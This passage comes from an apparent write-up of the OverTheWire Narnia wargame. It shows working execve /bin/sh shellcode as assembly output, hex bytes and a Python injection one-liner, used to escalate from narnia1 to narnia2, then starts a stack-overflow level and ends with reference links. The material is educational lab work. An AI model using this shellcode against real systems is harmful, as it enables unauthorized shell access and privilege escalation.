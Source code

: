 Compiling:

```sh
narnia1@melinda:/tmp$ nasm shellspawn.asm
narnia1@melinda:/tmp$ ls
shellspawn  shellspawn.asm
narnia1@melinda:/tmp$ cat shellspawn
1�Ph//shh/bin��P��P���
```

Exporting it to *EGG*:

```sh
narnia1@melinda:/tmp$ export EGG=$(cat shellspawn)
```
We are ready to exploit the binary:

```sh
narnia1@melinda:/tmp$ /narnia/narnia1
Trying to execute EGG!
$ whoami
narnia2
```



### Step 4: Convert it to Hexadecimal

It's really useful to have a hexadecimal form of our exploit (as we will see in the next levels) so we will use ```xxd``` to read it:

```sh
narnia5@melinda:/tmp$ xxd shellspawn
0000000: 31c0 5068 2f2f 7368 682f 6269 6e89 e350  1.Ph//shh/bin..P
0000010: 89e2 5089 e1b0 0bcd 80                   ..P......
```

Awesome! We can go ahead and test it:
```sh
narnia1@melinda:/tmp$ export EGG=`python -c'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x50\x89\xe1\xb0\x0b\xcd\x80"'`
narnia1@melinda:/tmp$ /narnia/narnia1
Trying to execute EGG!
$ whoami
narnia2
```


----------


## Level 2: Stack Overflow to the Return Address

### Step 1: Understanding the Problem:

The third level starts with:

```
narnia2@melinda:/narnia$ ./narnia2
Usage: ./narnia2 argument
narnia2@melinda:/narnia$ cat narnia2.c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
  char buf[128];

  if(argc == 1){
    printf("Usage: %s argument\n", argv[0]);
    exit(1);
```

[inputs with no bounds checking]: http://en.wikipedia.org/wiki/Bounds_checking
[buffer overflow]: http://en.wikipedia.org/wiki/Buffer_overflow
[process's virtual memory]: http://en.wikipedia.org/wiki/Virtual_memory
[physical memory]: http://en.wikipedia.org/wiki/Computer_memory
[virtual memory space]: http://en.wikipedia.org/wiki/Virtual_memory
[direction of which the Stack grows]: https://stackoverflow.com/questions/664744/what-is-the-direction-of-stack-growth-in-most-modern-systems
[segmentation violation]: http://en.wikipedia.org/wiki/Segmentation_fault
[Heap]: http://en.wikipedia.org/wiki/Heap_(data_structure)
[Python & Algorithms]: https://github.com/bt3gl/Python-and-Algorithms-and-Data-Structures/blob/master/book/book_second_edition.pdf
[here are some examples]: https://github.com/bt3gl/Python-and-Algorithms-and-Data-Structures/tree/master/src/abstract_structures/Stacks
[WarGames]: http://overthewire.org/wargames
[Narnia]: http://overthewire.org/wargames/narnia
[Aleph One]: http://en.wikipedia.org/wiki/Elias_Levy
[Phrack magazine]: http://www.phrack.org/
[Smashing the Stack for Fun or Profit]: http://insecure.org/stf/smashStack.html
[Peter Jay Salzman]: http://www.dirac.org/linux/gdb/
[this cheat sheet]: http://darkdust.net/files/GDB%20Cheat%20Sheet.pdf
[nice Assembly guide]: http://www.drpaulcarter.com/pcasm/
[run a binary and read its C code]: http://www.thegeekstuff.com/2011/10/c-program-to-an-executable/
[little-endian]: http://en.wikipedia.org/wiki/Endianness
[x86]: http://en.wikipedia.org/wiki/X86
[ASCII]: http://en.wikipedia.org/wiki/ASCII
[hexadecimal representation]: http://en.wikipedia.org/wiki/Hexadecimal
[Shellshock guide]: http://bt3gl.github.io/understanding-the-shellshock-vulnerability.html
[very introductory guide]: http://www.thegeekstuff.com/2010/03/debug-c-program-using-gdb/
[comprehensive guide]: http://www.dirac.org/linux/gdb/
[0xdeadbeef]: http://en.wikipedia.org/wiki/Hexspeak
[Appendix A]: http://insecure.org/stf/smashStack.html
[/dev/null]: http://en.wikipedia.org/wiki/Null_device
[ASLR]: http://en.wikipedia.org/wiki/Address_space_layout_randomization
[NOPs]: http://en.wikipedia.org/wiki/NOP